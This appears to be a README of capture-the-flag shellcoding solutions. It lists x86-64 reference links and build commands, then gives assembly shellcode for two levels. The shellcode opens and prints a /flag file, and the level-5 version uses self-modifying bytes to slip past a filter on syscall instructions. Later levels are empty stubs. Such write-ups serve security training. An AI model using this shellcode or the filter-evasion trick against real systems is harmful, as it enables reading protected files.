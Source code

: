 # level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
syscall

push 0
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
syscall

.section .data

```
## 5
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:

# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# sendfile(1,fd,0,60)
push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 6
```s

```
## 7
```s

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
